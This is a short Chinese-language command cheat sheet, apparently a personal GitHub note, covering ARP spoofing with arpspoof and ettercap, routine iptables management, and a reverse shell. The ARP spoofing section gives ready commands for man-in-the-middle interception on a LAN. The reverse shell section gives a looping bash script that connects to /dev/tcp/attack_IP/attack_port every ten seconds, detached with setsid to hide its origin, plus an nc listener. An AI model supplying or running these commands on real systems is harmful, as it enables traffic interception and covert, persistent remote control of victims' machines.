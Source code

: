 # arp

## arpspoof
1. install
```shell
apt install dsniff
```
2. 开启IP转发
```shell
# Linux root user
echo 1 >/proc/sys/net/ipv4/ip_forward
```
3. 查看IP转发
```shell
sudo sysctl -a | grep forward
```

## ettercap
```shell
# arp spoof
sudo ettercap -T -M arp /192.168.31.1// /192.168.31.68//
#
sudo ettercap -T -M arp:remote /192.168.31.1// /192.168.31.68//
```
## others
* driftnet
* upx
* od

# iptables

> https://www.digitalocean.com/community/tutorials/how-to-list-and-delete-iptables-firewall-rules

## 显示规则
```shell
sudo iptables -vL # 显示iptables规则,--line-number可以显示规则编号,用于指定删除某条规则
```

## 删除一条规则
```shell
sudo iptables -D # 用于删除
sudo iptables -D INPUT # 删除所有INPUT规则
sudo iptables -D INPUT 1 # 删除INPUT下第一条规则,编号来自--line-number
```

## 删除所有iptables规则
```shell
#开放所有端口
sudo iptables -P INPUT ACCEPT
sudo iptables -P FORWARD ACCEPT
sudo iptables -P OUTPUT ACCEPT
sudo iptables -F
#Oracle自带的Ubuntu镜像默认设置了Iptable规则，关闭它
apt-get purge netfilter-persistent
#删除配置文件后需要重启
rm -rf /etc/iptables && reboot
```

## 添加防火墙规则
```shell
iptables -A INPUT -s 192.168.1.0/24 -j ACCEPT
iptables -A INPUT -p tcp --dport 22 -j ACCEPT
```

## 其他
```shell
sudo iptables -D # 用于清除规则上的数据统计
sudo iptables -D INPUT # 删除所有INPUT规则上的数据统计
sudo iptables -D INPUT 1 # 删除INPUT下第一条规则上的数据统计,编号来自--line-number
```

## 实战例子
```shell
sudo iptables -A INPUT -s 180.101.88.249 -p tcp --dport 22 -j DROP # 禁止该IP对于22端口访问
```

# reverse shell

    启用tcp连接主机，每隔10秒连接一次。当主机开启监听就直接向靶机发送指令。
    主机不在连接中，靶机上也看不到tcp信息，但是能看到进程信息。
    所以要将启动的进程的父进程设置为init(1)，用setsid命令将程序执行启动
1. 在靶机上启动反向shell

    创建如下文件reverse_shell.sh
```shell
#!/bin/bash

while true;do bash -i 2>/dev/null &> /dev/tcp/attack_IP/attack_port 0>&1;sleep 10; done;
```
    启动该程序
```shell
setsid reverse_shell.sh
```

2. 在攻击机器上接收
```shell
nc -lvp attack_port
```